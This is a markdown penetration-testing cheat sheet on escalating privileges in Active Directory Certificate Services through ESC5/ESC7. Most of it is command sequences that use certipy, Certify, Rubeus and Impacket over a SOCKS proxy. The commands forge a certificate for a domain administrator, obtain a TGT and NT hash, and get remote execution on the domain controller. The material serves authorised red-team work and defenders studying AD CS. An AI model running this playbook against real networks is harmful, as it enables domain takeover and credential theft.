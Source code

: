 # ESC5—PKI Object Access Control (Vulnerable PKI Object ACL)

## Theory

> [!Overview] Title
> ESC5 covers privilege escalation paths where access over **PKI-related Active Directory objects** (not just templates or the CA service itself) allows an attacker to compromise ADCS and, by extension, the domain. If an attacker gains **Local Administrator** on the CA server or sufficient rights over PKI configuration objects (e.g., in `CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>`), they can often gain **ManageCA/ManageCertificates** privileges or manipulate PKI components (e.g., ESC4/ESC7 style abuses). This can enable issuing a certificate for a high-privileged principal (e.g., `<DOMAIN>\<ADMIN_USER>`) and authenticating as that account.

## Requirements

* **Control over PKI-related AD objects**, including (but not limited to):

  * **CA server AD computer object** (potential S4U2Self/S4U2Proxy abuse).
  * **CA server RPC/DCOM service** access.
  * **Any descendant object** under `CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>` (e.g., Certificate Templates, Certification Authorities, NTAuthCertificates, Enrollment Services containers).
* **Local Administrator** on the **CA server** (grants effective ManageCA/ManageCertificates; enables ESC4/ESC7-style attacks).
* **Ability to reach the CA/DC** over the network (RPC/SMB/LDAP/Kerberos).
* Tooling: `certipy`, `Certify.exe`, `Rubeus`, `Impacket`.

### Placeholders

`<DOMAIN>` `<FOREST_DN>` `<DC_IP>` `<ADCS_IP>` `<ADCS_HOST_FQDN>` `<CA_NAME>` `<TEMPLATE_NAME>` `<USER>` `<PASS>` `<ADMIN_USER>` `<CONTROLLED_USER>` `<CONTROLLED_MACHINE>` `<CONTROLLED_MACHINE_FQDN>` `<REQUEST_ID>` `<PFX_FILE>` `<KRB5CC_FILE>` `<ATTACK_BOX_USER>` `<ATTACK_BOX_PASS>` `<PROXY_SOCKS_ADDR>` `<PROXY_SOCKS_PORT>` `<DNS_IP>` `<RDP_USER>` `<RDP_PASS>`

---

## Linux

### (Optional) SOCKS Proxy via SSH

```bash
sshpass -p '<ATTACK_BOX_PASS>' ssh -N -f -D <PROXY_SOCKS_ADDR>:<PROXY_SOCKS_PORT> <ATTACK_BOX_USER>@<ATTACK_BOX_IP>
# If sshpass not installed, omit `sshpass -p ...` and enter the password interactively
# set <PROXY_SOCKS_ADDR> to localhost
# set <PROXY_SOCKS_PORT> to 9050
```

#### Proxychains4 Config (example)

```bash
# /etc/proxychains.conf
#proxy_dns            # comment this out to avoid DNS leakage if required
[ProxyList]
socks4  <PROXY_SOCKS_ADDR> <PROXY_SOCKS_PORT>
```

### Quick Admin Check with NetExec (over proxy)

```bash
proxychains4 -q netexec smb <DC_IP>-<ADCS_IP> -u <USER> -p '<PASS>'
# Look for (Pwn3d!) on <ADCS_HOST_FQDN>
```

### Enumerate ADCS with Certipy (over proxy)

```bash
proxychains4 -q certipy find \
  -u '<USER>' -p '<PASS>' \
  -dc-ip <DC_IP> -stdout \
  -ns <DNS_IP> -dns-tcp
# Review CA permissions and templates; certipy may not always show Local Admin => ManageCA/ManageCertificates
```

> If you are **Local Admin** on the CA server, you can typically abuse **ESC4/ESC7** patterns to issue certs for privileged principals even if template enrollment is restricted.

### Issue a High-Privilege Cert via ESC7 Pattern (SubCA template example)

> Use when you have Local Admin on the CA server and a template like **SubCA** is present.

#### 1 Submit request (expect policy denial but obtain a Request ID)

```bash
proxychains4 -q certipy req \
  -u '<USER>' -p '<PASS>' \
  -dc-ip <DC_IP> -ns <DNS_IP> -dns-tcp \
  -target-ip <ADCS_IP> -ca '<CA_NAME>' \
  -template '<TEMPLATE_NAME>' -upn '<ADMIN_UPN>'
# Expect denial and a Request ID; save private key if prompted
```

#### 2 Approve the pending request (requires ManageCertificates / Local Admin on CA)

```bash
proxychains4 -q certipy ca \
  -u '<USER>' -p '<PASS>' \
  -dc-ip <DC_IP> -ns <DNS_IP> -dns-tcp \
  -target-ip <ADCS_IP> -ca '<CA_NAME>' \
  -issue-request <REQUEST_ID>
```

#### 3 Retrieve the issued certificate

```bash
proxychains4 -q certipy req \
  -u '<USER>' -p '<PASS>' \
  -dc-ip <DC_IP> -ns <DNS_IP> -dns-tcp \
  -target-ip <ADCS_IP> -ca '<CA_NAME>' \
  -retrieve <REQUEST_ID>
# => Saves <ADMIN_USER>.pfx (or use -out '<PFX_FILE>')
```

### Authenticate with the Issued Certificate

```bash
proxychains4 -q certipy auth -pfx '<PFX_FILE>' -username '<ADMIN_USER>' -domain '<DOMAIN>' -dc-ip <DC_IP> -ns <DNS_IP> -dns-tcp
# Produces <KRB5CC_FILE> and may print NT hash
```

### Use the TGT (Kerberos) over Proxychains

> Ensure host resolution for DC/hosts (e.g., `/etc/hosts` or DNS).

```bash
# /etc/hosts (example)
<DC_IP> <DC_HOSTNAME> <DC_HOSTNAME>.<DOMAIN> <DOMAIN> <DOMAIN_SHORT>
```

```bash
KRB5CCNAME=<KRB5CC_FILE> proxychains4 -q wmiexec.py -k -no-pass <DC_HOSTNAME>.<DOMAIN> -dc-ip <DC_IP>
```

---

## Windows

### Enumerate PKI with Certify

```powershell
# In an elevated PowerShell on the CA server or a host that can reach it
.\Certify.exe find /vulnerable
# Check that BUILTIN\Administrators (Local Admins) have ManageCA/ManageCertificates on <CA_NAME>
```

> If Local Admins have **ManageCA/ManageCertificates**, you can proceed with an **ESC7-style** flow: submit a request for `<ADMIN_USER>`, approve it in the CA console, download, convert to PFX, then use with Rubeus.

### Request a Certificate (e.g., SubCA template)

```powershell
.\Certify.exe request /ca:<ADCS_HOST_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<ADMIN_USER>
# Note the Request ID (e.g., <REQUEST_ID>) if policy denies immediately
# Note the private key
```

### Approve the Request in the CA Console

```powershell
# Run the CA console
certsrv.msc
# Locate Request ID <REQUEST_ID> under 'Failed Requests' or 'Pending Requests'
# Right-click -> All Tasks -> Issue
```

### Download the Issued Certificate

```powershell
.\Certify.exe download /ca:<ADCS_HOST_FQDN>\<CA_NAME> /id:<REQUEST_ID>
# Combine RSA PRIVATE KEY and CERTIFICATE into a single PEM (e.g., approved.pem)
```

### Convert PEM to PFX

```powershell
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 \
  -in approved.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" \
  -export -out approved.pfx
```

### Request TGT and NT Hash with Rubeus (PKINIT)

```powershell
.\Rubeus.exe asktgt /user:<ADMIN_USER> /certificate:approved.pfx /getcredentials
# Outputs base64 TGT; may print NTLM hash
```

---

## Notes & Troubleshooting

* If you see `CERTSRV_E_TEMPLATE_DENIED`, capturing the **Request ID** still allows you to **issue** the request via CA privileges.
* If `certipy auth` errors with `KDC_ERR_PADATA_TYPE_NOSUPP`, retry; if persistent, verify CA/KDC settings or domain reachability.
* Ensure DNS/host mapping for Kerberos SPNs when tunneling through proxies.
* When only object ACLs are controlled (not Local Admin), investigate direct abuses on objects inside `CN=Public Key Services,...` (e.g., template ACLs, Enrollment Services objects) or pivot to ESC4/ESC7 depending on what rights are present.
